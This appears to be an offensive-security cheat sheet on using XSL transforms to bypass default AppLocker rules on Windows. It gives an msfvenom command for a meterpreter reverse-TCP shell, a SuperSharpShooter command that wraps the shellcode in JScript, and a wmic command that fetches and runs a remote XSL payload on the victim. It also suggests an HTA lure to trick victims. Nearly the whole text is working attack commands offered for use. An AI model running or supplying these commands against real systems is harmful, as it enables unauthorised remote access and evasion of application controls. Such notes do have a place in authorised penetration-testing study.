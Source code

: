 # XSL Transform

Can be combined with JScript code (SuperSharpShooter) to get a meterpreter shell.

> [!CAUTION]
> Bypasses default AppLocker Rules.
> We can use 64bit shellcode.

### Create shellcode:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt`

### Create JScript using SuperSharpShooter:

`python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test`

Option one: Embed the JS content to the XSL template, and on victim, run: `wmic process get /format:"http://192.168.0.1/test.xsl"`
Option two: use the HTA template to trick the victim to execute the XSL payload.
